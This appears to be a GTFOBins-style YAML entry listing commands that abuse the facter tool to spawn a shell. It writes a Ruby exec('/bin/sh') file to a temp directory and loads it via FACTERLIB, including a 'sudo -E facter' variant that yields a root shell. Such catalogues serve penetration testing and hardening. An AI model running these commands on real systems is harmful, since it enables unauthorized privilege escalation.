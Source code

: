 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp -d)
        echo 'exec("/bin/sh")' > $TF/x.rb
        FACTERLIB=$TF facter
  sudo:
    - code: |
        TF=$(mktemp -d)
        echo 'exec("/bin/sh")' > $TF/x.rb
        FACTERLIB=$TF sudo -E facter
---
```


